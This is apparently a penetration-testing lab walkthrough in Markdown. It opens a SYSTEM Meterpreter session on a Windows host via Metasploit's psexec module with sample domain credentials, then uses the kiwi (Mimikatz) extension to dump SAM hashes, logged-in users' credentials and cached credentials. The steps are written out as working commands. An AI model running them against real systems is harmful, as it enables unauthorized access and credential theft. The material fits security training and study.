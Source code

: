 # Mimikatz Demonstration

## Step 1: Open a Meterpreter Session as SYSTEM on WIN10

If you don't have a Meterpreter SYSTEM session open, follow these steps:

### Load the `psexec` Module
```bash
use exploit/windows/smb/psexec
```

### Set the Following Parameters:
```bash
set RHOSTS 172.22.117.20
set SMBUSER tstark
set SMBPass Password!
set SMBDomain megacorpone
set LHOST 172.22.117.100
```

### Run the Module
```bash
run
```

> Even though we set the credentials to `tstark`, the PSExec module in Metasploit will always open a session as SYSTEM due to how it executes the payload via service creation.

---

## Step 2: Load the `kiwi` (Mimikatz) Module

Once inside the Meterpreter session:

```bash
load kiwi
```

Metasploit and Meterpreter both support loading add-ons like `kiwi`. When loaded, the help menu updates with commands from the new module.

To list all available kiwi commands:
```bash
?
```

---

## Step 3: Dump Credentials

### Dump SAM Credentials
```bash
lsa_dump_sam
```

> Focus on the `User` and `Hash NTLM` fields. These contain NTLM hashes for each user.

---

### Use `creds_all` to Collect All Available Credentials
```bash
creds_all
```

> If no results are returned, you may need to **migrate to a 64-bit SYSTEM process**.

`creds_all` scans several locations for credentials, often from **currently logged-in users**. For example, you might see `pparker`'s credentials if they're logged in.

Note: `SAM` contents are not included in `creds_all`.

---

### Dump Cached Credentials using `kiwi_cmd`

The `creds_all` command doesn't retrieve cached credentials, but you can use raw Mimikatz commands:

```bash
kiwi_cmd lsadump::sam
```

> This command provides output similar to `lsa_dump_sam` and is useful when dumping cached credentials.

---

## Additional References

- [Mimikatz Cheat Sheet](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Mimikatz.ps1)
- [Mimikatz Commands Documentation](https://adsecurity.org/?page_id=1821)

